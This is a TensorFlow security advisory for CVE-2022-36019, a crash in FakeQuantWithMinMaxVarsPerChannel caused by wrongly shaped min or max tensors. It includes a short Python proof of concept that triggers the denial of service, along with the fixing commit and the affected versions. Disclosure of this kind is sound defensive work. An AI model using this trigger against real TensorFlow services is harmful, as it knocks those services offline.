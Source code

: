 ## TFSA-2022-106: `CHECK` fail in `FakeQuantWithMinMaxVarsPerChannel`

### CVE Number
CVE-2022-36019

### Impact
If `FakeQuantWithMinMaxVarsPerChannel` is given `min` or `max` tensors of a rank other than one, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

num_bits = 8
narrow_range = False
inputs = tf.constant(0, shape=[4], dtype=tf.float32)
min = tf.constant([], shape=[4,0,0], dtype=tf.float32)
max = tf.constant(0, shape=[4], dtype=tf.float32)
tf.raw_ops.FakeQuantWithMinMaxVarsPerChannel(inputs=inputs, min=min, max=max, num_bits=num_bits, narrow_range=narrow_range)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
